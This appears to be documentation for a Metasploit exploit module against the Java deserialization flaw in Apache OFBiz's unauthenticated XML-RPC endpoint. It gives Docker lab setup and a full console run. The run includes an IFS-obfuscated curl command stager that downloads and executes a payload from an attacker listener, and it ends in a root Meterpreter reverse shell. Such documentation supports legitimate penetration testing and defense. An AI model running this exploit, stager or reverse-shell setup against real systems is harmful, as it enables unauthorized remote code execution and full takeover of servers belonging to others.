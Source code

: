 ## Vulnerable Application

### Description

This module exploits a Java deserialization vulnerability in Apache
OFBiz's unauthenticated XML-RPC endpoint `/webtools/control/xmlrpc` for
versions prior to 17.12.04.

### Setup

You can use <https://hub.docker.com/r/opensourceknight/ofbiz>.

1. Initialize the database with demo data (`INIT_DB=2`) and bind to ports 8080 and 8443
    * `docker run -p 8080:8080 -p 8443:8443  --rm -e INIT_DB=2 opensourceknight/ofbiz:15.12`

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This executes a Unix command.

### 1

This uses a Linux dropper to execute code.

## Scenarios

### Apache OFBiz from [Docker](#setup).

```
msf6 > use exploit/linux/http/apache_ofbiz_deserialization
[*] Using configured payload linux/x64/meterpreter_reverse_https
msf6 exploit(linux/http/apache_ofbiz_deserialization) > options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8443             yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The local listener hostname
   LPORT  8443             yes       The local listener port
   LURI                    no        The HTTP Path


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/apache_ofbiz_deserialization) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set lhost 192.168.1.7
lhost => 192.168.1.7
msf6 exploit(linux/http/apache_ofbiz_deserialization) > set srvport 8888
srvport => 8888
msf6 exploit(linux/http/apache_ofbiz_deserialization) > run

[*] Started HTTPS reverse handler on https://192.168.1.7:8443
[*] Executing automatic check (disable AutoCheck to override)
[+] The target is vulnerable. Target can deserialize arbitrary data.
[*] Executing Linux Dropper for linux/x64/meterpreter_reverse_https
[*] Using URL: http://0.0.0.0:8888/AGB4cD
[*] Local IP: http://10.3.227.250:8888/AGB4cD
[*] Generated command stager: ["curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv"]
[*] Executing command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] Client 192.168.1.7 (curl/7.38.0) requested /AGB4cD
[*] Sending payload to 192.168.1.7 (curl/7.38.0)
[+] Successfully executed command: sh -c curl${IFS}-so${IFS}/tmp/fNZHtLgv${IFS}http://192.168.1.7:8888/AGB4cD;chmod${IFS}+x${IFS}/tmp/fNZHtLgv;/tmp/fNZHtLgv;rm${IFS}-f${IFS}/tmp/fNZHtLgv
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Redirecting stageless connection from /1fY1FTBqS3Z81nrUI-E3VQ3E-Kqn5Kx4lP2cAzF4bmUgveaMUNylCEh1ohulKhz1fERPwYd8u4DAauCLZ8UDm5JaB7P with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] https://192.168.1.7:8443 handling request from 192.168.1.7; (UUID: btpun2w7) Attaching orphaned/stageless session...
[*] Command Stager progress - 104.14% done (151/145 bytes)
[*] Meterpreter session 1 opened (192.168.1.7:8443 -> 192.168.1.7:61375) at 2020-08-14 21:42:11 -0500
[*] Server stopped.

meterpreter > getuid
Server username: root @ 09d1564c6b2c (uid=0, gid=0, euid=0, egid=0)
meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Debian 8.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
